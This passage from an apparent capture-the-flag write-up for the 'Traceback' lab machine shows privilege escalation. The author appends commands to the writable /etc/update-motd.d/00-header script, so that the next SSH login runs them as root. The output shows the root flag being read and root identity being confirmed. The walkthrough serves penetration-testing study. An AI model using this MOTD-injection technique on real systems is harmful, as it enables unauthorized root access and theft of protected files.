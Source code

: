 ```bash

echo "\nWelcome to Xh4H land \n"
sysadmin@traceback:/etc/update-motd.d$ 
```

Let's see if we can read root flag through this

> echo "cat /root/root.txt" >> 00-header
> echo "id && whoami" >> 00-header

```bash
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cat /root/root.txt
id && whoami
sysadmin@traceback:/etc/update-motd.d$ 
```

And on login again via SSH i got the root flag

```bash
[vibhu@parrot]─[~/.ssh]$ ssh -i id_rsa webadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

9fdc59db[Redacted]58d49e5a
uid=0(root) gid=0(root) groups=0(root)
root

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jul  7 10:34:22 2020 from 10.10.14.166
webadmin@traceback:~$ 
```
